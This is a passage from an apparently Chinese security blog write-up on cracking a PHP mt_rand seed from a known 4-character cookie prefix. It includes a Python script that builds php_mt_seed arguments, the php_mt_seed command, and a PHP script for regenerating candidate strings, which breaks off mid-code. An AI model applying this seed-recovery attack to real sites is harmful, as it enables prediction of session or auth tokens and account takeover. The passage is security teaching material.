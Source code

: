 那么这4位cookie前缀就是我们可以得到的，那我们就可以使用字符集加上4位已知字符，爆破随机数种子。

首先我们需要先获得4位字符
![image.png-193.7kB][3]

sW7c

然后通过脚本生成用于php_mt_seed的参数
```
# coding=utf-8

w_len = 10
result = ""
str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
length = len(str_list)

for i in xrange(w_len):
	result+="0 "
	result+=str(length-1)
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "

sstr = "sW7c"

for i in sstr:
	result+=str(str_list.index(i))
	result+=" "
	result+=str(str_list.index(i))
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "

print result
```
得到参数,使用php_mt_seed脚本
```
./php_mt_seed 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61 > result.txt
```

这里我获得了245组种子

接下来我们需要使用这245组随机数种子生成随机字符串
```
<?php


function random($length) {
	$hash = '';
	$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
	$max = strlen($chars) - 1;
	PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
	for($i = 0; $i < $length; $i++) {
		$hash .= $chars[mt_rand(0, $max)];
	}
	return $hash;
}

$fp = fopen('result.txt', 'rb');
$fp2 = fopen('result2.txt', 'wb');

while(!feof($fp)){
	$b = fgets($fp, 4096);
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/27by3pv6j16qauhgebbrapvr/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vd44ejapmbdfwnq8z8vklxb1/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/737c9gqg6cdtlo4aryxpnxwe/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fu70qeqhk55gw55xm0qwkbk2/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fdmabv7avbqd1w5libd3j0g3/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fmwrfzfbm4jjrv1nsm8e92r0/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/n882uz5x3qrymr6ljsb89brm/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dgu0bdnhje2u2caxy0q5bmgs/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ivok9agi1lurxhe4xkst4vyj/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jeddzeumksc2zm7ioph0ybk3/image.png
  [15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g0fipnw0vrrsojjmnfsc9mtg/image.png
  [16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vl37a7f8giy88mbhndxkbb9x/image.png